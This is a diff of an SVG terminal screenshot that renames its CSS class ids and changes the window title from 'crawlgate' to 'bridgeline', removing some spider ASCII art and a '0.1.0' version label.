

<svg xmlns="http://www.w3.org/2000/svg" class="rich-terminal" viewBox="0 0 1141 1123.6">
  <style>

    @font-face {
        font-family: "Fira Code";
        src: local("FiraCode-Regular"),
                url("https://cdnjs.cloudflare.com/ajax/libs/firacode/6.2.0/woff2/FiraCode-Regular.woff2") format("woff2"),
                url("https://cdnjs.cloudflare.com/ajax/libs/firacode/6.2.0/woff/FiraCode-Regular.woff") format("woff");
        font-style: normal;
        font-weight: 400;
    }
    @font-face {
        font-family: "Fira Code";
        src: local("FiraCode-Bold"),
                url("https://cdnjs.cloudflare.com/ajax/libs/firacode/6.2.0/woff2/FiraCode-Bold.woff2") format("woff2"),
                url("https://cdnjs.cloudflare.com/ajax/libs/firacode/6.2.0/woff/FiraCode-Bold.woff") format("woff");
        font-style: bold;
        font-weight: 700;
    }

-     .terminal-73425060-matrix {
+     .terminal-4181876958-matrix {
        font-family: Fira Code, monospace;
        font-size: 20px;
        line-height: 24.4px;
        font-variant-east-asian: full-width;
    }

-     .terminal-73425060-title {
+     .terminal-4181876958-title {
        font-size: 18px;
        font-weight: bold;
        font-family: arial;
    }

-     .terminal-73425060-r1 { fill: #c5c8c6 }
- .terminal-73425060-r2 { fill: #c5c8c6;font-weight: bold }
- .terminal-73425060-r3 { fill: #868887 }
- .terminal-73425060-r4 { fill: #9a9b99 }
- .terminal-73425060-r5 { fill: #6c6d6c }
- .terminal-73425060-r6 { fill: #d0b344;font-weight: bold }
+     .terminal-4181876958-r1 { fill: #c5c8c6 }
+ .terminal-4181876958-r2 { fill: #c5c8c6;font-weight: bold }
+ .terminal-4181876958-r3 { fill: #868887 }
+ .terminal-4181876958-r4 { fill: #9a9b99 }
+ .terminal-4181876958-r5 { fill: #6c6d6c }
+ .terminal-4181876958-r6 { fill: #d0b344;font-weight: bold }
    </style>
  <defs>
-     <clipPath id="terminal-73425060-clip-terminal">
+     <clipPath id="terminal-4181876958-clip-terminal">
      <rect x="0" y="0" width="1121.4" height="1072.6" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-0">
+     <clipPath id="terminal-4181876958-line-0">
      <rect x="0" y="1.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-1">
+     <clipPath id="terminal-4181876958-line-1">
      <rect x="0" y="25.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-2">
+     <clipPath id="terminal-4181876958-line-2">
      <rect x="0" y="50.3" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-3">
+     <clipPath id="terminal-4181876958-line-3">
      <rect x="0" y="74.7" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-4">
+     <clipPath id="terminal-4181876958-line-4">
      <rect x="0" y="99.1" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-5">
+     <clipPath id="terminal-4181876958-line-5">
      <rect x="0" y="123.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-6">
+     <clipPath id="terminal-4181876958-line-6">
      <rect x="0" y="147.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-7">
+     <clipPath id="terminal-4181876958-line-7">
      <rect x="0" y="172.3" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-8">
+     <clipPath id="terminal-4181876958-line-8">
      <rect x="0" y="196.7" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-9">
+     <clipPath id="terminal-4181876958-line-9">
      <rect x="0" y="221.1" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-10">
+     <clipPath id="terminal-4181876958-line-10">
      <rect x="0" y="245.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-11">
+     <clipPath id="terminal-4181876958-line-11">
      <rect x="0" y="269.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-12">
+     <clipPath id="terminal-4181876958-line-12">
      <rect x="0" y="294.3" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-13">
+     <clipPath id="terminal-4181876958-line-13">
      <rect x="0" y="318.7" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-14">
+     <clipPath id="terminal-4181876958-line-14">
      <rect x="0" y="343.1" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-15">
+     <clipPath id="terminal-4181876958-line-15">
      <rect x="0" y="367.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-16">
+     <clipPath id="terminal-4181876958-line-16">
      <rect x="0" y="391.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-17">
+     <clipPath id="terminal-4181876958-line-17">
      <rect x="0" y="416.3" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-18">
+     <clipPath id="terminal-4181876958-line-18">
      <rect x="0" y="440.7" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-19">
+     <clipPath id="terminal-4181876958-line-19">
      <rect x="0" y="465.1" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-20">
+     <clipPath id="terminal-4181876958-line-20">
      <rect x="0" y="489.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-21">
+     <clipPath id="terminal-4181876958-line-21">
      <rect x="0" y="513.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-22">
+     <clipPath id="terminal-4181876958-line-22">
      <rect x="0" y="538.3" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-23">
+     <clipPath id="terminal-4181876958-line-23">
      <rect x="0" y="562.7" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-24">
+     <clipPath id="terminal-4181876958-line-24">
      <rect x="0" y="587.1" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-25">
+     <clipPath id="terminal-4181876958-line-25">
      <rect x="0" y="611.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-26">
+     <clipPath id="terminal-4181876958-line-26">
      <rect x="0" y="635.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-27">
+     <clipPath id="terminal-4181876958-line-27">
      <rect x="0" y="660.3" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-28">
+     <clipPath id="terminal-4181876958-line-28">
      <rect x="0" y="684.7" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-29">
+     <clipPath id="terminal-4181876958-line-29">
      <rect x="0" y="709.1" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-30">
+     <clipPath id="terminal-4181876958-line-30">
      <rect x="0" y="733.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-31">
+     <clipPath id="terminal-4181876958-line-31">
      <rect x="0" y="757.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-32">
+     <clipPath id="terminal-4181876958-line-32">
      <rect x="0" y="782.3" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-33">
+     <clipPath id="terminal-4181876958-line-33">
      <rect x="0" y="806.7" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-34">
+     <clipPath id="terminal-4181876958-line-34">
      <rect x="0" y="831.1" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-35">
+     <clipPath id="terminal-4181876958-line-35">
      <rect x="0" y="855.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-36">
+     <clipPath id="terminal-4181876958-line-36">
      <rect x="0" y="879.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-37">
+     <clipPath id="terminal-4181876958-line-37">
      <rect x="0" y="904.3" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-38">
+     <clipPath id="terminal-4181876958-line-38">
      <rect x="0" y="928.7" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-39">
+     <clipPath id="terminal-4181876958-line-39">
      <rect x="0" y="953.1" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-40">
+     <clipPath id="terminal-4181876958-line-40">
      <rect x="0" y="977.5" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-41">
+     <clipPath id="terminal-4181876958-line-41">
      <rect x="0" y="1001.9" width="1122.4" height="24.65" />
    </clipPath>
-     <clipPath id="terminal-73425060-line-42">
+     <clipPath id="terminal-4181876958-line-42">
      <rect x="0" y="1026.3" width="1122.4" height="24.65" />
    </clipPath>
  </defs>
  <rect fill="#292929" stroke="rgba(255,255,255,0.35)" stroke-width="1" x="1" y="1" width="1139" height="1121.6" rx="8" />
-   <text class="terminal-73425060-title" fill="#c5c8c6" text-anchor="middle" x="569" y="27">crawlgate</text>
+   <text class="terminal-4181876958-title" fill="#c5c8c6" text-anchor="middle" x="569" y="27">bridgeline</text>
  <g transform="translate(26,22)">
    <circle cx="0" cy="0" r="7" fill="#ff5f57" />
    <circle cx="22" cy="0" r="7" fill="#febc2e" />
    <circle cx="44" cy="0" r="7" fill="#28c840" />
  </g>
-   <g transform="translate(9, 41)" clip-path="url(#terminal-73425060-clip-terminal)">
-     <g class="terminal-73425060-matrix">
-       <text class="terminal-73425060-r1" x="1122.4" y="20" textLength="12.2" clip-path="url(#terminal-73425060-line-0)">
- </text>
-       <text class="terminal-73425060-r1" x="0" y="44.4" textLength="85.4" clip-path="url(#terminal-73425060-line-1)"> \\  //</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="44.4" textLength="12.2" clip-path="url(#terminal-73425060-line-1)">
- </text>
-       <text class="terminal-73425060-r1" x="0" y="68.8" textLength="97.6" clip-path="url(#terminal-73425060-line-2)">--(oo)--</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="68.8" textLength="12.2" clip-path="url(#terminal-73425060-line-2)">
- </text>
-       <text class="terminal-73425060-r1" x="0" y="93.2" textLength="85.4" clip-path="url(#terminal-73425060-line-3)"> //  \\</text>
-       <text class="terminal-73425060-r1" x="1122.4" y="93.2" textLength="12.2" clip-path="url(#terminal-73425060-line-3)">
- </text>
-       <text class="terminal-73425060-r2" x="0" y="117.6" textLength="109.8" clip-path="url(#terminal-73425060-line-4)">crawlgate</text>
-       <text class="terminal-73425060-r3" x="109.8" y="117.6" textLength="85.4" clip-path="url(#terminal-73425060-line-4)">  0.1.0</text>
